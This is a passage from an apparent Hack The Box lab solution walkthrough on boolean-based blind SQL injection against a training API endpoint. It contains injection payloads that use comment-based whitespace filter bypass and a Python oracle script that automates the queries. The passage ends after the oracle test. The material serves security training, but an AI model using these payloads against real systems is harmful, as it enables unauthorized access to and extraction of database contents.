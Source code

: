 ```
http://STMIP:8080/api/v1/check-user?u=admin
```

![[HTB Solutions/CWEE/z. images/2ecb22ee966facf43b6a08f17d3a3ad2_MD5.jpg]]

Since the username `admin` exists, students need to inject a query that if evaluated to `true`, the endpoint returns `true` (since `admin` exists (i.e., `true`) AND the injected query evaluates to `true`), otherwise, returns `false`. (This is a `boolean-based` `blind SQLi`, for more on blind SQLi, students are highly encouraged to take the `Blind SQL Injection` module.) Students can test the endpoint by injecting a query that will evaluate to `true`, attaining `true` for `exists`:

Code: sql

```sql
admin'/*-*/And/*-*/(1=1)--/*-*/-
```

![[HTB Solutions/CWEE/z. images/14fa244bd85d80f8ee7ed77d6765cb11_MD5.jpg]]

However, when injecting a query that will evaluate to `false`, students will attain `false` for `exists`:

Code: sql

```sql
admin'/*-*/And/*-*/(1=3)--/*-*/-
```

![[HTB Solutions/CWEE/z. images/7767de6f1bc2c37539edc58ce26647a3_MD5.jpg]]

Now, students need to automate the exfiltration of data by exploiting the blind SQLi. First, a simple query will be run to test the oracle:

Code: sql

```sql
1 = 1
```

Code: python

```python
#!/usr/bin/env python3

import requests, json, sys
from urllib.parse import quote_plus

def oracle(query):
    existingUser = "admin"
    whitespace = "/*-*/"
    baseURL = f"http://STMIP:8080/api/v1/check-user?u={existingUser}"
    SQLiPayload = f''''{whitespace}And{whitespace}({query.replace(" ", whitespace)})--{whitespace}-'''
    response = requests.get(baseURL + quote_plus(SQLiPayload))
    jsonResponse = json.loads(response.text)
    return jsonResponse["exists"] == True

print(oracle("1 = 1"))
```
